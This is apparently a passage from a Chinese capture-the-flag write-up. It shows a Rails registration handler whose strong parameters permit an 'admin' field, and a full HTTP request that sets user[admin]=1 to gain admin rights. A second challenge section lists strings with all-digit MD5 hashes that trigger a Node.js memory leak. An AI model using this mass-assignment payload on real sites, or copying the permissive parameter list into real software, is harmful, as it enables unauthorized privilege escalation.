 而在注册界面的注册函数中，它其实多传了一个admin的参数。只是在实际界面不存在，我们构造一个user[admin]=1即可（这个格式参照其他参数的构造方式）

```ruby
  private
    def user_params
      params.require(:user).permit(:name, :email, :password, :password_confirmation, :admin)
    end
```

构造一个请求包

```http
POST /users HTTP/1.1
Host: 218.2.197.235:23727
Content-Length: 301
Cache-Control: max-age=0
Origin: http://218.2.197.235:23727
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://218.2.197.235:23727/users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: session=eyJhZG1pbiI6Im5vIn0=; session.sig=Uw-lgOYJjpIZLRIXs4H8tv2EK_0; PHPSESSID=kfm3fk6doepaefpaa9al32h8j7; piclist=a%3A2%3A%7Bi%3A0%3Bs%3A43%3A%22upload%2F693a17c7426e064e37c184879f4e4107.png%22%3Bi%3A1%3Bs%3A45%3A%22upload%2F773f33a925049e4906690514266b89cf.phtml%22%3B%7D; _sample_app_session=ZEFvNW5hTzI2aFVSNzNjN05Lc0JISGlFRU04aGE1M3lCL0pyM0xCUkNoWnE4S1VJMGNuUlpOMXl0OXR0aFlMUUlNbGN6ODU1NUxhN21VeU9wbHRyTFNaRHg4STRiZHR4NkRaMzEzalZGSkNKMEZOdjZPRVJ5cklGSEN3OWUxUTByVEVYdUNKQlMxcHJLNHpTZEd5NDd3bUNSSk1kbEFUc2V2aEQramZuSWQ1RUhsNHJxZTZ0bWZiUmdmWjZiSVpuLS1uTG9CM0lBVk1vdzdvM2prL21oUHRnPT0%3D--5607ac4adcab4b1014ea69518f5c5afd8aec911a
Connection: close

utf8=%E2%9C%93&authenticity_token=%2FPQd%2BsT%2B1KX0%2B2vr%2Bqd5ME5G%2B2abPv4x6I3na8FG%2Bcd6QifrU0%2FBEknXMxJIRgvfIzens6iPmAhurvD0foPq9w%3D%3D&user%5Bname%5D=moxiaoxi12345&user%5Bemail%5D=moxiaoxi%40qq11.com&user%5Bpassword%5D=moxiaoxi&user%5Bpassword_confirmation%5D=moxiaoxi&user%5Badmin%5D=1&commit=Create+my+account
```



### CHaII

能搜到一篇非常相似的博客

http://smrrd.de/nodejs-hacking-challenge-writeup.html



这道题，有一个非常脑洞的地方，就是必须输入md5出来全是数字的md5才能触发内存泄漏。。。。

非常神奇orz 原题就没这么脑洞。。

List of few first strings that give only-digit md5 hash:

```
ximaz : 61529519452809720693702583126814 
aalbke : 55203129974456751211900188750366 
afnnsd : 49716523209578759475317816476053 
aooalg : 68619150135523129199070648991237 
bzbkme : 69805916917525281143075153085385 
```
